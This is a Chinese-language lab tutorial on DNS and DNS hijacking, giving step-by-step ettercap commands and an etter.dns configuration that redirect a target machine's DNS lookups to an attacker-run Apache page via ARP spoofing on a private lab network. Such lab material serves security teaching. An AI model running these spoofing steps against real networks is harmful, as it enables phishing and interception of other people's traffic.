 # 什么是DNS

## 概念

DNS是Domain Name System的缩写,我们称之域名系统。首先它是远程调用服务,本地默认占用53端口，它本身的实质上-一个域名和ip的数据库服务器，他要完成的任务是帮我们把输入的域名转换成ip地址，之后通过ip寻址连接目标服务器。

## DNS工作过程

当访问一个网站时系统将从DNS缓存中读取该域名所对应的IP地址，当查找不到时就会到系统中查找hosts文件,如果还没有那么才会向DNS服务器请求一个DNS查询， DNS服务器将返回该域名所对应的IP,在你的系统收到解析地址以后将使用该IP地址进行访问，同时将解析缓存到本地的DNS缓存中。

![image-20221223143711807](https://image.201068.xyz/assets/image-20221223143711807.png)

# 什么是DNS劫持

## 概念

DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求,分析请求的域名，把审查范围以外的求放行，否则返回假的IP地址或者什么都不做使请求失去响应,效果就是**对特定的网络不能访问或访问的是假网址**。

## ettercap劫持的原理

局域网劫持,攻击者通过伪装成**网关**，劫持受害者的网络请求将网络请求拦截到指定的服务器

## DNS常用命令

### 查看DNS缓存表

`ipconfig /displaydns`

### 获取DNS地址

`ping baidu.com`

### 刷新DNS缓存

`ipconfig /flushdns`

# ARP-DNS欺骗攻击步骤

## kali开启apache

`service apache2 start`

### 查看apache状态

`service apache2 status`

### 浏览器访问Apache的首页

http://192.168.70.3

## 编辑ettercap配置文件

### 进入配置文件位置

`cd /etc/ettercap`

### 复制原有的配置文件（环境恢复方便）

`cp etter.dns etter.dns1`

### 设置DNS劫持配置文件

`vim /etc/ettercap/etter.dns`

添加以下内容

```
*  A   192.168.70.3
*  PTR 192.168.70.3
www.*.com A 192.168.70.3
```

`wq`保存

参数

- *：表示所有网站，也可以设置某个网站 www.baidu.com
- A:表示钓鱼的ip地址
- PTR:常被用于方向地址解析

### ettercap劫持命令讲解

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关//
-i:网卡
-T：问本模式
-q:安静模式
-M:执行mitml攻击
-P：plugin 开始该插件
```

### 靶机访问网页确认环境正常

- http://www.mashibing.com/
- http://m.ctrip.com
- http://www.dj.com/



- ping http://www.mashibing.com/
- ping http://m.ctrip.com
- ping http://www.dj.com/

## 执行劫持命令

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.70.130// /192.168.70.2// >b.txt
```

### 分析日志

`tail -f b.txt`

或者

`tail -f b.txt | grep "dns_spoof"`

### 靶机访问http网站查看攻击效果

- http://www.mashibing.com/
- http://m.ctrip.com
- http://www.dj.com/

## 停止劫持

ctrl+c

## 恢复dns劫持，刷新dns缓存

`ipconfig /flushdns`

### 靶机访问网站查看环境是否恢复正常

- http://www.dj.com/

ping www.dj.com

## 恢复kali环境

#### 进入配置文件位置

`cd /etc/ettercap`

#### 复制dns文件到新wen文件

`cp etter.dns etter.dns2`

#### 还原dns配置文件

`cp etter.dns1 etter.dns`

